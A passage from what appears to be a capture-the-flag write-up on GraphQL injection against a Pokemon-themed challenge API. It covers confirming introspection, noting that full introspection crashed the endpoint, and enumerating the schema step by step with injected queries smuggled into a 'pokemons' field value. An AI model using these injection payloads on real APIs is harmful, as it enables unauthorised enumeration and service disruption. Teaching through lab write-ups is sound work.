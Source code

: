 As we can see, it returned the query type's name `Query`, which indicates that **introspection is enabled**.

After confirming introspection is enabled, we can enumerate the entire GraphQL schema by running a **full introspection** query.

In this case, however, **the schema is so big** that if we try to run a full introspection query, **we'll bring the API endpoint down**. This is possibly due to out-of-memory caused by the insanely large schema.

> Note: During the CTF, I *accidentally* kept bringing the API endpoint down.

That being said, we should **enumerate the schema step by step** instead of just dumping the entire schema.

**Schema types**:
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__schema{types{name}}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "types": [
        {
          "name": "Pokemon"
        },
        [...]
        {
            "name":"Digimon0x0000298c"
        },
        [...]
        {
            "name":"Query"
        },
        [...]
      ]
    }
  }
}
```

In the query result, we can see that the schema has type `Pokemon`, tons of `Digimon0x........`, and `Query`.

Now, let's dive deeper into type `Query` to see if there are any **hidden queries**.

**Type `Query`:**
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__type(name:\"Query\"){name,fields{name,type{name,kind}}}}#"
  ],
  "compares": []
}
```
